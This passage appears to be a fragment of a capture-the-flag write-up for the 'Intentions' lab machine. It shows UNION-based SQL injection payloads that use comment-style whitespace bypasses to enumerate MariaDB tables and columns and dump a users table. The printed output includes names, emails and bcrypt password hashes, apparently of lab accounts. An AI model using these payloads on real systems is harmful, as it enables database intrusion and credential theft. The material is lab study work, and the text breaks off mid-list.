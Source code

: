 ill do again same for version()
`10.6.12-MariaDB-0ubuntu0.22.04.1`

lets try to get list of tables:
`')/**/UNION/**/SELECT/**/1,table_schema,table_name,4,5/**/from/**/information_schema.tables/**/where/**/table_schema/**/!=/**/'information_schema'#`

```
{"status":"success","data":[{"id":1,"file":"intentions","genre":"gallery_images","created_at":"1970-01-01T00:00:04.000000Z","updated_at":"1970-01-01T00:00:05.000000Z","url":"\/storage\/intentions"},

{"id":1,"file":"intentions","genre":"personal_access_tokens","created_at":"1970-01-01T00:00:04.000000Z","updated_at":"1970-01-01T00:00:05.000000Z","url":"\/storage\/intentions"},

{"id":1,"file":"intentions","genre":"migrations","created_at":"1970-01-01T00:00:04.000000Z","updated_at":"1970-01-01T00:00:05.000000Z","url":"\/storage\/intentions"},

{"id":1,"file":"intentions","genre":"users","created_at":"1970-01-01T00:00:04.000000Z","updated_at":"1970-01-01T00:00:05.000000Z","url":"\/storage\/intentions"}]}
```

tables: `gallery_images, personal_access_tokens, migrations, users`

lets look in users see if we can get passwords:
```
')/**/UNION/**/SELECT/**/1,2,column_name,4,5/**/from/**/information_schema.columns/**/where/**/table_name='users'#
```

returns: `id`, `name`, `email`, `password`, `created_at`, `updated_at`, and `genres`

```
')/**/UNION/**/SELECT/**/1,2,concat(name,':',email,':',admin,':',password,':',genres),4,5/**/from/**/users#
```
```
{"status":"success","data":[{"id":1,"file":"2","genre":"steve:steve@intentions.htb:1:$2y$10$M\/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa:food,travel,nature","created_at":"1970-01-01T00:00:04.000000Z","updated_at":"1970-01-01T00:00:05.000000Z","url":"\/storage\/2"},{"id":1,"file":"2","genre":"greg:greg@intentions.htb:1:$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m:food,travel,nature","created_at":"1970-01-01T00:00:04.000000Z","updated_at":"1970-01-01T00:00:05.000000Z","url":"\/storage\/2"},{"id":1,"file":"2","genre":"Melisa Runolfsson:hettie.rutherford@example.org:0:$2y$10$bymjBxAEluQZEc1O7r1h3OdmlHJpTFJ6CqL1x2ZfQ3paSf509bUJ6:food,travel,nature","created_at":"1970-01-01T00:00:04.000000Z","updated_at":"1970-01-01T00:00:05.000000Z","url":"\/storage\/2"},{"id":1,"file":"2","genre":"Camren Ullrich:nader.alva@example.org:0:$2y$10$WkBf7NFjzE5GI5SP7hB5\/uA9Bi\/BmoNFIUfhBye4gUql\/JIc\/GTE2:food,travel,nature","created_at":"1970-01-01T00:00:04.000000Z","updated_at":"1970-01-01T00:00:05.000000Z","url":"\/storage\/2"},{"id":1,"file":"2","genre":"Mr. Lucius Towne I:jones.laury@example.com:0:$2y$10$JembrsnTWIgDZH3vFo1qT.Zf\/hbphiPj1vGdVMXCk56icvD6mn\/ae:food,travel,nature","created_at":"1970-01-01T00:00:04.000000Z","updated_at":"1970-01-01T00:00:05.000000Z","url":"\/storage\/2"},{"id":1,"file":"2","genre":"Jasen Mosciski:wanda93@example.org:0:$2y$10$oKGH6f8KdEblk6hzkqa2meqyDeiy5gOSSfMeygzoFJ9d1eqgiD2rW:food,travel,nature","created_at":"1970-01-01T00:00:04.000000Z","updated_at":"1970-01-01T00:00:05.000000Z","url":"\/storage\/2"},{"id":1,"file":"2","genre":"Monique D'Amore:mwisoky@example.org:0:$2y$10$pAMvp3xPODhnm38lnbwPYuZN0B\/0nnHyTSMf1pbEoz6Ghjq.ecA7.:food,travel,nature","created_at":"1970-01-01T00:00:04.000000Z","updated_at":"1970-01-01T00:00:05.000000Z","url":"\/storage\/2"},{"id":1,"file":"2","genre":"Desmond Greenfelder:lura.zieme@example.org:0:$2y$10$.VfxnlYhad5YPvanmSt3L.5tGaTa4\/dXv1jnfBVCpaR2h.SDDioy2:food,travel,nature","created_at":"1970-01-01T00:00:04.000000Z","updated_at":"1970-01-01T00:00:05.000000Z","url":"\/storage\/2"},{"id":1,"file":"2","genre":"Mrs. Roxanne Raynor:pouros.marcus@example.net:0:$2y$10$UD1HYmPNuqsWXwhyXSW2d.CawOv1C8QZknUBRgg3\/Kx82hjqbJFMO:food,travel,nature","created_at":"1970-01-01T00:00:04.000000Z","updated_at":"1970-01-01T00:00:05.000000Z","url":"\/storage\/2"},{"id":1,"file":"2","genre":"Rose Rutherford:mellie.okon@example.com:0:$2y$10$4nxh9pJV0HmqEdq9sKRjKuHshmloVH1eH0mSBMzfzx\/kpO\/XcKw1m:food,travel,nature","created_at":"1970-01-01T00:00:04.000000Z","updated_at":"1970-01-01T00:00:05.000000Z","url":"\/storage\/2"},{"id":1,"file":"2","genre":"Dr. Chelsie Greenholt 
...
massive list i am not gonna put it all here..
```
organized
```
```